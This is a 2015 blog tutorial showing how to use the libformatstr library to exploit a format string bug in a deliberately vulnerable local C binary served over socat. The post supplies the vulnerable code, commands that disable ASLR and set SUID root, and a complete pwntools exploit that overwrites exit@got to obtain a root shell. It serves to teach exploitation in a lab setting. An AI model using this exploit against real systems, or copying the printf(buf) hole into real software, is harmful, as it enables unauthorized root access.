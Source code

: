 ```yaml
---
layout: post
title: "Simplifying format string exploitation with libformatstr"
date: 2015-07-01 10:31:08 -0400
comments: true
categories: howto hacking
---
```


libformatstr is a library created by hellman with the intention of simplifying format string exploitation. The GitHub repository can be found [here](https://github.com/hellman/libformatstr). It's been around since 2012 but I haven't been able to find many tutorials on it. I have seen CTF writeups that use it though, so I decided to take the time to do a short writeup on it for my own reference. 

<!-- more -->

Let's start with a simple vulnerable binary: 

```c
/* compile: gcc -Wno-format-security ex1.c -o ex1 */ 
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void win() {
    system("/bin/sh");
}

void main(int argc, char *argv[]) {
    char buf[103]; 
    fgets(buf, 103, stdin); 
    buf[strlen(buf)-1] = 0x0; 
    printf(buf); 
    exit(0);
}
```

You can also download the pre-compiled binary [here](https://gist.github.com/superkojiman/6c113a9ff991d9f3b7da). Turn off ASLR on the system, make the binary SUID root, and run it using socat:

```text
# echo 0 > /proc/sys/kernel/randomize_va_space
# chown root:root ex1
# chmod 4755 ex1
# socat TCP-LISTEN:5000,reuseaddr,fork EXEC:./ex1
```

Let's test the vulnerability:

```
koji@pwnbox32:~$ nc localhost 5000
%x.%x.%x.%x.%x.%x
67.b7fc1c20.bffff734.bffff6d4.2e782548.252e7825koji@pwnbox32:~$
```

Great, we're leaking the stack so we know the vulnerability exists. The first step is to see if we can find our format string on the stack. Traditionally we'd send something like "AAAA.%x.%x.%x.%x" and so on and see if we can find it from the output. libformatstr automates that for us: 

```python
#!/usr/bin/env python
from libformatstr import *      # need this for libformatstr
from pwn import *
import sys

bufsiz = 100                    # size of cyclic pattern to send
buf = "" 
r = remote("localhost", 5000)

# PART 1 - getting format string offset
r.send(make_pattern(bufsiz) + "\n")             # send cyclic pattern to server
data = r.recv()                                 # server's response
offset, padding = guess_argnum(data, bufsiz)    # find format string offset and padding
log.info("offset : " + str(offset))
log.info("padding: " + str(padding))
r.close()
```

To find the offset and padding, libformatstr sends a cyclic pattern to the service using make_pattern(). It takes an integer parameter, which is the length of the cyclic pattern to send. In this case I'm sending 100 bytes. 

When we receive the output from the service, we can use guess_argnum() to return the offset of our format string, and any padding it might have. guess_argnum() takes the output we've received and the length as its parameters. Let's see it in action:

```text
koji@pwnbox32:~$ ./sploit.py 
[+] Opening connection to localhost on port 5000: Done
[*] Closed connection to localhost port 5000
[*] offset : 6
[*] padding: 3
```

According to libformatstr, our format string will be at offset 6 and needs to be padded by 3 bytes. Let's test it manually: 

```
koji@pwnbox32:~$ nc localhost 5000
aaaBBBB.%x.%x.%x.%x.%x.%x
aaaBBBB.67.b7fc1c20.bffff734.bffff6d4.61616148.42424242koji@pwnbox32:~$
```

It worked. We're looking for "BBBB" and we've padded it with three bytes "aaa". Sure enough at offset 6, we see 0x42424242. libformatstr did the job nicely. 

Now that we have the offset and padding, we can move on to exploitation. In this case we want to redirect execution of the binary to the win() function which calls system("/bin/sh"). To do this we'll overwrite exit@got. If you're using the binary I provided, win()'s address is at 0x080484fd, and exit@got is at 0x0804a01c. 

```python
# PART 2 - exploitation
win_addr = 0x080484fd   # gdb ex1 -batch -n -ex "p win"
exit_got = 0x0804a01c   # readelf -r ex1 | grep exit

p = FormatStr(bufsiz)
p[exit_got] = win_addr              # overwrite exit@got with address of win()
buf += p.payload(offset, padding)   # setup the payload

r = remote("localhost", 5000)
r.send(buf + "\n")                  # send payload to server

r.interactive()                     # get our shell
```

As you can see, libformatstr makes overwriting exit@got very easy. No need to calculate how many bytes to write or anything like that. Let's try it:

```text
koji@pwnbox32:~$ ./sploit.py 
[+] Opening connection to localhost on port 5000: Done
[*] Closed connection to localhost port 5000
[*] offset : 6
[*] padding: 3
[+] Opening connection to localhost on port 5000: Done
[*] Switching to interactive mode




                                $ id
uid=0(root) gid=0(root) euid=1000(koji) groups=1000(koji),0(root)
$ 
```

Got a root shell, so our exploit worked. We're not limited to overwriting exit@got with win()'s address. We could have padded our payload with shellcode and have exit@got jump to that instead provided NX isn't enabled on the binary. We could also have had it jump to the start a our ROP chain as well, and so on. 
